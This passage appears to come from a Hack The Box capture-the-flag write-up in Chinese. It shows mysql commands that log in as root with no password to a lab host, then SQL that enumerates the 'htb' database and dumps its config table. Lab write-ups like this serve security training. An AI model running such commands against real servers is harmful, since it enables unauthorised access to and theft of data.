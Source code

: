 接下來就連進資料庫逛逛，沒有設定密碼

```bash
mysql -u root -h $target
```

```bash
mysql -h 10.129.211.185 -u root -p
```

![Untitled](HTB%20writeu%20673ee/Untitled%209.png)

```sql
show databases;
use htb;
show tables;

```

```sql
select * from config;
```

![Untitled](HTB%20writeu%20673ee/Untitled%2010.png)
